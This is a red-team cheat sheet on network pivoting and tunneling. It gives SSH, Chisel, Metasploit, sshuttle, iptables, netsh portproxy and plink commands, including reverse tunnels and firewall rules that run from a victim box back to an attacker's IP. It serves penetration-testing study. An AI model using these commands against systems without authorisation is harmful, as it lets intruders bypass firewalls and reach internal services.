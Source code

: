 # Tunneling      
## Contents    
- [Tunneling](#tunneling)
  * [Contents](#contents)
  * [SSH](#ssh)
    + [Local Tunnels](#local-tunnels)
    + [Reverse Tunnels](#reverse-tunnels)
    + [Dynamic Tunnels](#dynamic-tunnels)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
  * [Metasploit Tunneling](#metasploit-tunneling)
- [Linux](#linux)
  * [SShuttle](#sshuttle)
  * [IPTables](#iptables)
- [Windows](#windows)
  * [Portproxy](#portproxy)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)   
   
Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tunneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    ssh -L 3333:localhost:3306 user@10.10.10.10            #local port forward example     
    ssh -L 3333:localhost:3306 8080:localhost:80 user@10.10.10.10     #multiple local port forward     
    netstat -antp | grep 3333   #confirm port forward      
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box    
[HTTP vs SOCKS4 vs SOCKS5 proxies](https://medium.com/@ThibeauM/difference-between-http-socks4-and-socks5-proxies-85aca2a9e4ae)    
### Chisel socks Reverse Proxy 
    attack box    $ ./chisel server -p LISTEN_PORT --reverse &  
    target box    $ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    $ ./chisel server -p LISTEN_PORT --socks5  
    attack    $ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    $ ./chisel server -p LISTEN_PORT --reverse &  
    target    # ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    $ ./chisel server -p LISTEN_PORT 
    attack    $ ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > route add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap, post/multi/gather/ping_sweep modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    
SOCKS Proxy    

    use auxiliary/server/socks_proxy
    socks4 	127.0.0.1 9050    #Add to /etc/proxychains.conf (or proxychains4.conf)    
Local Port Forwarding    

    (meter) > portfwd add -l 3300 -p 3389 -r 172.16.1.1    
    (meter) > portfwd add -R -l 8081 -p 1234 -L 10.10.10.10 #Reverse     
    
 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     #generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target         
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
 
 # DNS Tunneling    
 [DNSCat2](https://github.com/iagox86/dnscat2)     
 [DNSCat2 - PowerShell](https://github.com/lukebaggett/dnscat2-powershell)      

